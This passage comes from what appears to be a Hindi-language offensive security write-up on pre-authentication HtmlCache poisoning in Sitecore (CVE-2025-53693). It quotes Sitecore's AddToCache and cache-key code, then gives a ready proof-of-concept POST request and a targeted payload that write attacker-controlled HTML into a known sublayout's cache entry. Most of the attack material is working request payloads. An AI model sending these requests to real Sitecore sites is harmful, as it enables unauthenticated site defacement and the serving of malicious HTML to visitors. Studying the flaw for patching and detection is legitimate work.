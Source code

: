 Magic method for poisoning:
```csharp
// Sitecore.Web.UI.WebControl
protected virtual void AddToCache(string cacheKey, string html) {
HtmlCache c = CacheManager.GetHtmlCache(Sitecore.Context.Site);
if (c != null) c.SetHtml(cacheKey, html, this._cacheTimeout);
}
```
क्योंकि हम xmlcontrol:GlobalHeader को target कर सकते हैं और नाम से Sitecore.Web.UI.WebControl methods को call कर सकते हैं, हमें एक pre‑auth arbitrary HtmlCache write primitive मिल जाता है।

### PoC request (CVE-2025-53693)
```
POST /-/xaml/Sitecore.Shell.Xaml.WebControl HTTP/2
Host: target
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=AddToCache("wat","<html><body>pwn</body></html>")&__SOURCE=ctl00_ctl00_ctl05_ctl03&__ISEVENT=1
```
नोट्स:
- __SOURCE, Sitecore.Shell.Xaml.WebControl में xmlcontrol:GlobalHeader का clientID है (आमतौर पर स्थिर, जैसे ctl00_ctl00_ctl05_ctl03 क्योंकि यह static XAML से व्युत्पन्न होता है)।
- __PARAMETERS का प्रारूप Method("arg1","arg2") है।

## क्या poison करना है: Cache key निर्माण

Sitecore controls द्वारा उपयोग किए जाने वाले सामान्य HtmlCache कुंजी निर्माण:
```csharp
public virtual string GetCacheKey(){
SiteContext site = Sitecore.Context.Site;
if (this.Cacheable && (site == null || site.CacheHtml) && !this.SkipCaching()){
string key = this.CachingID.Length > 0 ? this.CachingID : this.CacheKey;
if (key.Length > 0){
string k = key + "_#lang:" + Language.Current.Name.ToUpperInvariant();
if (this.VaryByData)        k += ResolveDataKeyPart();
if (this.VaryByDevice)      k += "_#dev:"   + Sitecore.Context.GetDeviceName();
if (this.VaryByLogin)       k += "_#login:" + Sitecore.Context.IsLoggedIn;
if (this.VaryByUser)        k += "_#user:"  + Sitecore.Context.GetUserName();
if (this.VaryByParm)        k += "_#parm:"  + this.Parameters;
if (this.VaryByQueryString && site?.Request != null)
k += "_#qs:"   + MainUtil.ConvertToString(site.Request.QueryString, "=", "&");
if (this.ClearOnIndexUpdate) k += "_#index";
return k;
}
}
return string.Empty;
}
```
एक ज्ञात sublayout के लिए लक्षित poisoning का उदाहरण:
```
__PARAMETERS=AddToCache("/layouts/Sample+Sublayout.ascx_%23lang:EN_%23login:False_%23qs:_%23index","<html>…attacker HTML…</html>")&__SOURCE=ctl00_ctl00_ctl05_ctl03&__ISEVENT=1
```
## कैशेबल आइटम और “vary by” डायमेंशन्स की सूची बनाना
